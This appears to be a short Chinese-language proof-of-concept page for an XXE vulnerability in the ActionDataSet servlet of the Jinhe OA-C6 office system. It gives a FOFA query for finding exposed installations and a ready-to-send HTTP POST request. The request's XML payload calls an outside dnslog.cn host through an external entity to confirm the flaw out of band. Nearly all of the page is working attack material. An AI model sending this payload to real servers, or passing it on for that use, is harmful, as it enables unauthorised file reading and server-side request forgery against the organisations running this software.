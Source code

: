 # 金和OA-C6系统接口ActionDataSet存在XXE漏洞

金和OA-C6系统接口ActionDataSet存在XXE漏洞，攻击者可利用xxe漏洞获取服务器敏感数据，可读取任意文件以及ssrf攻击，存在一定的安全隐患。

## fofa

```javascript
app="金和网络-金和OA"
```

## poc

```javascript
POST /jc6/servlet/ActionDataSet HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Content-Type: application/xml
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://323232323.xxxx.dnslog.cn"> %remote;]>
```
